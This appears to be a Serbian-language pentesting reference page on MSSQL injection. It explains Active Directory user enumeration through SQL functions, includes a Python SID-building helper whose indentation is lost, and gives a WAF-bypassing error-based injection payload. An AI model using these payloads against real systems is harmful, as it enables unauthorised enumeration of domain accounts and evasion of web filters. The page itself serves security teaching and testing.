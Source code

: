 # MSSQL Injection

## MSSQL Injection

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

### Enumeracija Active Directory-ja

Moguće je **enumerisati korisnike domena putem SQL injection-a unutar MSSQL** servera koristeći sledeće MSSQL funkcije:

* **`SELECT DEFAULT_DOMAIN()`**: Dobijanje trenutnog imena domena.
* **`master.dbo.fn_varbintohexstr(SUSER_SID('DOMAIN\Administrator'))`**: Ako znate ime domena (_DOMAIN_ u ovom primeru), ova funkcija će vratiti **SID korisnika Administrator** u heksadecimalnom formatu. Izgledaće kao `0x01050000000[...]0000f401`, obratite pažnju kako su **poslednja 4 bajta** broj **500** u **big endian** formatu, što je **uobičajeni ID korisnika administratora**.\
  Ova funkcija će vam omogućiti da **znate ID domena** (svi bajtovi osim poslednjih 4).
* **`SUSER_SNAME(0x01050000000[...]0000e803)`** : Ova funkcija će vratiti **korisničko ime za navedeni ID** (ako postoji), u ovom slučaju **0000e803** u big endian == **1000** (obično je ovo ID prvog redovnog korisnika kreiranog). Tada možete pretpostaviti da možete pokušati brute-force ID-ova korisnika od 1000 do 2000 i verovatno dobiti sva korisnička imena korisnika domena. Na primer, koristeći funkciju kao što je sledeća:

```python
def get_sid(n):
domain = '0x0105000000000005150000001c00d1bcd181f1492bdfc236'
user = struct.pack('<I', int(n))
user = user.hex()
return f"{domain}{user}" #if n=1000, get SID of the user with ID 1000
```

### **Alternativni vektori zasnovani na greškama**

SQL injekcije zasnovane na greškama obično podsećaju na konstrukcije poput `+AND+1=@@version--` i varijante zasnovane na operatoru «OR». Upiti koji sadrže takve izraze obično su blokirani od strane WAF-ova. Kako biste zaobišli to, spojite string koristeći karakter %2b sa rezultatom određenih funkcija koje izazivaju grešku konverzije tipa podataka na tražene podatke.

Neki primeri takvih funkcija:

* `SUSER_NAME()`
* `USER_NAME()`
* `PERMISSIONS()`
* `DB_NAME()`
* `FILE_NAME()`
* `TYPE_NAME()`
* `COL_NAME()`

Primer korišćenja funkcije `USER_NAME()`:

```
https://vuln.app/getItem?id=1'%2buser_name(@@version)--
```
